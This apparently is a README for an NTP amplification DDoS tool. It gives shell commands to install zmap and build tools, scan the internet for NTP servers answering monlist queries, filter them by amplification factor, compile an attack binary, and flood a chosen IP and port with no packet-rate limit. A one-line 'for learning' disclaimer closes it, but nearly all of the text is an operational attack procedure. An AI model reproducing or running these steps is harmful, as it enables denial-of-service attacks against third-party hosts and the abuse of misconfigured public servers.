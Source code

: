 this is a NTP-AMP script for cyber security learning

operating system：centOS 7

prepare repositorys：Enter the command below

-----------------------------------------------
yum install gcc libcap  libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c
yum -y install zmap
--------------------------------------------------

Upload ntpchecker and ntp_123_monlist.pkt to your server
Enter the command below to start scanning agent list（it wil take a looong time so pls be patient）:

-------------------------------------------------------------------------------------------------
screen zmap -p 123 -M udp --probe-args=file:/root/ntp_123_monlist.pkt -o monlist_fingerprint.txt
---------------------------------------------------------------------------------------------------

give ntpchecker 777 permission：

------------------------------
chmod 777 ntpchecker
-----------------------------

Operational inspection：

---------------------------------------------------------------
screen ./ntpchecker monlist_fingerprint.txt step1.txt 1 0 1
-----------------------------------------------------------------

filter list:

---------------------------------------------------------------------------
awk '$2>419{print $1}' step1.txt | sort -n | uniq | sort -R > ntpamp.txt
-----------------------------------------------------------------------------

Compilation and attack:

------------------------------------------------------------------------------
yum install gcc libcap libpcap libpcap-devel 

gcc -lpthread ntp.c -lpcap -o ntp 
 -----------------------------------------------------------------------------------

ATTACK:

./ntp ip port list(ntpamp.txt) thread ppslimit(-1=no limit) attacktime(second)

example: ./ntp 127.0.0.1 80 ntpamp.list 1500 -1 600
 
 ok now you're ready to attack
 
 this script is just for cyber attack learning and pls don't be evil
 
